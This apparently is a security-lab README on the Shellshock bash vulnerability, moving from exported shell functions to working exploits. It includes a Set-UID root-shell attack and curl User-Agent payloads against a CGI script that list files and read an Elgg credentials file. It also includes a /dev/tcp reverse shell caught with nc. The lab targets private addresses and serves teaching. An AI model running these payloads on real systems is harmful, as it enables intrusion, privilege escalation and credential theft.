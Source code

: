 # Shellshock Attack

Some snippets below:

## Shell Functions

```bash
foo() { echo "Inside function"; }
declare -f foo # show the function def
foo
unset -f foo
declare -f foo # show the function def
```

```bash
foo() { echo "hello world"; }
declare -f foo # show the function def
foo
export -f foo
bash
foo
```

```bash
foo='() { echo "hello world"; }'
echo $foo
declare -f foo # show the function def
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## The Shellshock Vuln.

```bash
foo='() { echo "hello world"; }; echo "extra";'
echo $foo
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## Shellshock Attack on Set-UID Programs

```bash
sudo ln -sf /bin/bash_shellshock /bin/sh # link sh to the vuln. version of bash
cat vul.c
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo "hello world"; }; echo /bin/sh'
./vul # get the root shell! 
sudo ln -sf /bin/dash /bin/sh # reset sh
```

## Shellshock Attacks on CGI Programs

### Setup

Put this script (`test.cgi`) in `/usr/bin/cgi-bin/`

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo 
echo "Hello World"
```

Use `curl` to interact with the CGI script

```bash
curl http://10.0.2.69/cgi-bin/test.cgi
```

### User Data in CGI Scripts

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo "*** Environment Variables ***"
strings /proc/$$/environ
```

```bash
curl -v http://10.0.2.69/cgi-bin/test.cgi
```

Use `curl -A ...` to change the user-agent field.

```bash
curl -A "test" -v http://10.0.2.69/cgi-bin/test.cgi
```

### Launching the attack

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; /bin/ls -l"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         /bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php"
         http://10.0.2.69/cgi-bin/test.cgi
```

### Reverse Shell

```bash
nc -lv 9090
ifconfig
```

```bash
/bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         echo; 
         /bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
nc -lv 9090
id
```
